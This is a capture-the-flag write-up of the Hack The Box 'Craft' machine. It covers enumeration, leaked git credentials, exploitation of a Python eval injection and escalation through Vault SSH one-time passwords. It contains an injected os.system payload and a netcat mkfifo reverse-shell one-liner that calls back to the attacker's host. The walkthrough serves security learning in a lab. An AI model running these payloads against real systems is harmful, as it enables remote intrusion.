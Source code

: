 # 						  Hack The Box - Craft 

![info_card](/images/info_card.png)

### Enumeration - Namp
```
nmap -sV -sC -oA nmap_full -p1,65535 10.10.10.110
Nmap scan report for 10.10.10.110
Host is up (0.13s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)
|   256 82:b5:f9:d1:95:3b:6d:80:0f:35:91:86:2d:b3:d7:66 (ECDSA)
|_  256 28:3b:26:18:ec:df:b3:36:85:9c:27:54:8d:8c:e1:33 (ED25519)
443/tcp  open  ssl/http nginx 1.15.8
|_http-server-header: nginx/1.15.8
|_http-title: About
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Not valid before: 2019-02-06T02:25:47
|_Not valid after:  2020-06-20T02:25:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
6022/tcp open  ssh      (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
| ssh-hostkey: 
|_  2048 5b:cc:bf:f1:a1:8f:72:b0:c0:fb:df:a3:01:dc:a6:fb (RSA)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port6022-TCP:V=7.80%I=7%D=12/19%Time=5DFC45CB%P=x86_64-pc-linux-gnu%r(N
SF:ULL,C,"SSH-2\.0-Go\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 19 22:54:28 2019 -- 1 IP address (1 host up) scanned in 47.95 seconds   
```
### Enumerating the web page - https://craft.htb
![homepage](/images/homepage.png)

The "API" link points to api.craft.htb and the "Sign in" button to "gogs.craft.htb" therefore we add these as entries to our hosts file in other to be able to resolve and reach them.

### Enumeration - https://api.craft.htb
Small API with basic GET, POST, PUT, DELETE actions, might be an interesting point of entry.
Authentication required for POST, PUT
![api_craft](/images/api_craft.png)

### Enumeration - https://gogs.craft.htb
![gogs](/images/gogs_craft.png)
Clicking on __Explore__ leads to the public content of the repository.

Repository housing the code and content for api.craft.htb:
![commits](/images/craft_api_repo.png)
Reviewing all issues,commits and merge requests, dinesh's credentials were accidentally commited and removed: 
![dinesh_creds](/images/dinesh_creds.png)
The issue fix by dinesh also shows a dangerous python function (eval):
![eval_in_issue_fix](/images/eval_in_issue_fix.png)
The eval command resides in the POST brew function in brew.py and accepts user input.

The discovered credentials can be used in test.py
![1_test.py](/images/1_test.py.png)


### Initial foothold - Exploiting python eval function
Test 1: On local system:
![Test 1](/images/test1.png )

That works.
Test 2: with a similar "if" statement like in test.py:
![Test 2](/images/test2.png)

That works too, however there is no result returned when it is tried on the victim end.

Test 3: Ping from victim to local machine:
tcpdump -i tun0 -nnv icmp

Payload (test.py): 
```brew_dict['abv'] = '__import__("os").system("ping -c 3 10.10.14.4")' ```
 
Test 4. Reverse shell (http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):
Several failed till the netcat (without -e) option.

The payload in __test.py__ becomes: 
```brew_dict['abv'] = '__import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 4445 >/tmp/f")'```

![Test 4](/images/test3.png)

It's says root! Well that was easy! 
But wait no user.txt or root.txt flags. Of course it couldn't be that easy 

Running "cat /etc/issue", LinEnum and linuxprivchecker again show that we are in a docker container
Release: Alpine Linux 3.9

### Obtaining User privileges  – user.txt
Dump database credentials – dbtest.py
![dbtest.py](/images/dbtest.py.png)

Modify the SQL in the try statement to select all users from the database
![db_dump](/images/dump_users.png)

Authenticate with discovered credentials and enumerate the git repository
All commits/merge requests ==> ssh private key and vault write commands are discovered
![gilfoyle_ssh_key](/images/gilfolye_ssh.png)
  
Save the ssh private key, apply the normal permissions (chmod 400), and then authenticate with it and enter gilfoyle's password (dumped from the db/git password) as passphrase.
![gilfoyle_ssh_key](/images/user.txt.png)

### Elevating to root – Leveraging Vault SSH Secrets Engine
After obtaining user access on the machine more enumeration is required to discover interesting escalation vectors. Running linuxenum and privesc scripts did not recover any vulnerabilities right away but did point out the vault write.

Exploring vault:
![vault_secrets](/images/vault_secrets_list.png)

Gilfoyle's OTP setup:

![otp_setup](/images/vault_write_ssh_otp.png)

After reviewing the SSH Secrets Engine Documentation: https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html 

![vault_write_ssh_otp](/images/vault_write_ssh_otp_new.png)

Then SSH to the host using the generated key and the root user:
![root.txt](/images/root.txt.png)

Conclusion:
This machine simulates a lot of real world scenarios. I was delighted at every discovery, learned a lot and reminded myself once again the importance of enumeration during a penetration test.

<img src="https://www.hackthebox.eu/badge/image/206328" alt="Hack The Box">

